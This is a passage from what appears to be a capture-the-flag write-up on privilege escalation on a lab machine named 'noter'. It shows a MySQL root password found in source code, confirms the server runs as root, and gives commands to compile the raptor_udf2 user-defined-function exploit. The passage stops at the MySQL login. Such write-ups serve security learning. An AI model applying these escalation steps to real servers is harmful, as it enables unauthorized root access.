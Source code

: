 ## Privilege Escalation
There is something interesting in the user home directory:
```bash
svc@noter:~$ ls -la /home/svc/

...[snip]...

lrwxrwxrwx 1 root root    9 Dec 27 09:04 .mysql_history -> /dev/null

...[snip]...
```

As we can see the MySQL history file is owned by root and we got the credentials to login as root user from the application source-code previously:
```python
...[snip]...

app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'

...[snip]...
```

We can confirm that mysql is running as root reading the database configuration:
```bash
svc@noter:~$ cat /etc/mysql/mariadb.conf.d/50-server.cnf | grep -v "#" | grep "user"
user                    = root
```

Great! We can exploit this vulnerability loading a malicious shared library into MySQL.

### MySQL User Defined Functions
Download the exploit from [here](https://www.exploit-db.com/exploits/1518) and upload it to the target machine.
Compile it:
```bash
svc@noter:/tmp$ gcc -g -c raptor_udf2.c
svc@noter:/tmp$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Lets login to MySQL:
```bash
svc@noter:~$ mysql -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 5421
Server version: 10.3.32-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
MariaDB [(none)]> use mysql;
```
